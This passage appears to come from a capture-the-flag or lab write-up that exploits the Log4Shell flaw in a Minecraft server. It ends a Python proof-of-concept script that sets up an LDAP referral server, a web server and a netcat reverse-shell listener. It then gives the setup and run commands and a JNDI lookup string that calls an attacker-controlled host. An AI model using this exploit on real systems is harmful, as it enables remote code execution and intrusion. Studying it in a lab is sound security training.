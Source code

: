 ```python
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

Next download jdk 8 we can do this from the huaweicloud repo's 

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
```

Next unpack the archiv. and then move the contents to the **jdk1.8.0_20** directory. We need to do this because the exploit looks explicitly for this directory.

```bash
tar -xvf jdk-8u181-linux-x64.tar.gz
mv jdk1.8.0_181 jdk1.8.0_20
```

Now run the exploit with the following parameters. The lport is the port we use for our netcat listener.

```bash
python3 poc.py --userip 10.10.16.61 --webport 8000 --lport 443
```

The exploit then shows us the exact command we need to type in the minecraft chat

```bash
${jndi:ldap://10.10.16.61:1389/a}
```
